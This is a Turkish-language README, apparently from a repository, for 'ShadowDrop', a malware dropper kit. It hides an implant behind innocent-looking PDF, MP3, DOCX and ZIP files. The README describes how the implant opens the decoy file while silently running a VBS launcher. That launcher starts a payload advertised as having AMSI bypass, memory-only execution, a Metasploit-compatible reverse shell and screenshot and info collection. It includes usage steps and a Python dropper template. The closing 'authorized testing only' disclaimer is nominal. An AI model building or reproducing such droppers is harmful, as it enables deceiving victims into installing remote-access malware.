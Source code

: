 # ShadowDrop - Çok Formatlı Stealth Dropper Sistemi

ShadowDrop, PDF, MP3, JPEG, DOCX, ZIP gibi masum görünen dosyaları açarken arka planda **tam fonksiyonlu bir APT implantı** başlatır.  
Bu implant `rubber_final.py` üzerinden çalışır ve ters bağlantı kurar ya da fallback yapar.

---

## 📁 Klasör Yapısı

```
ShadowDrop/
├── src/
│   ├── dropper_pdf.py          → PDF için açıcı & payload tetikleyici
│   ├── dropper_mp3.py          → MP3
│   ├── dropper_docx.py         → DOCX
│   ├── dropper_mp4.py          → MP4
│   ├── dropper_xlsx.py, ...    → Diğer formatlar
│   ├── dropper_docm.py         → Makrolu Word
│   ├── dropper_js.py           → JS tuzağı
│   └── payload_runner.vbs      → rubber_final.py'yi sessiz başlatır
├── files/
│   └── (BOŞ) → Kendi PDF, JPEG, DOCX, ZIP dosyalarınızı buraya koyun
├── README.md                   → Bu açıklama dosyası
└── requirements.txt            → Gerekli pip bağımlılıkları
```

---

## ⚙️ Nasıl Kullanılır?

### 1. Dosyanı ekle

`files/` klasörüne kendi dosyanı koy.  
Örnek: `files/benimodevim.pdf`

---

### 2. Uygun dropper script'ini aç

Örnek olarak `src/dropper_pdf.py` dosyasını:

```python
real_file = "files/benimodevim.pdf"
```

olarak değiştir. Bu, kullanıcının tıkladığı anda açılacak dosyadır.

---

### 3. Çalıştır

```bash
pip install -r requirements.txt
python src/dropper_pdf.py
```

Bu komut:
- Gerçek PDF dosyasını açar (kullanıcı görür)
- Arka planda `payload_runner.vbs` çalışır
- Bu da `rubber_final.py` dosyasını `pythonw.exe` ile başlatır (sessizce)

---

## 🔒 rubber_final.py Ne Yapar?

- ✅ AMSI bypass
- ✅ Memory-only çalıştırma
- ✅ Reverse shell (Metasploit uyumlu)
- ✅ Sandbox tespiti
- ✅ Fallback modu (info toplar, ekran görüntüsü alır, zip yapar)

---

## 📘 Kendi Dropper'ını Yazmak İstersen

```python
import os
import subprocess

real_file = "files/seninbelgen.pdf"

try:
    subprocess.Popen(["wscript.exe", "src/payload_runner.vbs"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
except:
    pass

try:
    os.startfile(real_file)
except:
    pass
```

---

## ⚠️ Uyarı

> Bu araç sadece **izinli test ortamlarında** ve **eğitim amaçlı** kullanılabilir.  
> Kötüye kullanımı yasa dışıdır ve tüm sorumluluk kullanıcıya aittir.
